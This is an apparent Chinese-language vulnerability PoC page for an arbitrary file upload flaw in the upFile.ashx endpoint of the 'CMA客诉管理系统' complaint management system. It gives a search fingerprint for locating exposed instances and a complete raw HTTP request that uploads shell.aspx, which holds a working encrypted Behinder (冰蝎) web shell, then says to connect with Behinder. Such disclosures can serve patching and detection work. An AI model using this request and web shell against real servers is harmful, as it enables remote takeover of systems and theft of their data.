



CMA客诉管理系统 upFile.ashx 任意文件上传漏洞¶
漏洞描述¶
CMA客诉管理系统 upFile.ashx文件存在任意文件上传漏洞，通过漏洞攻击者可以上传任意文件控制服务器
漏洞影响¶
CMA客诉管理系统
网络测绘¶
title="CMA客诉管理系统手机端"
漏洞复现¶
登录页面

发送请求包上传文件
POST /upFile/upFile.ashx HTTP/1.1
Host:
Content-Length: 562
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymXf9pBIUlDVOYtnZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
------WebKitFormBoundarymXf9pBIUlDVOYtnZ
Content-Disposition: form-data; name="file"; filename="shell.aspx"
Content-Type: application/octet-stream
<%@ Page Language="C#" %><%@Import Namespace="System.Reflection"%><%Session.Add("k","e45e329feb5d925b");byte[] k = Encoding.Default.GetBytes(Session[0] + ""),c = Request.BinaryRead(Request.ContentLength);Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("U").Equals(this);%>
------WebKitFormBoundarymXf9pBIUlDVOYtnZ--

发送后回显路径，使用冰蝎连接
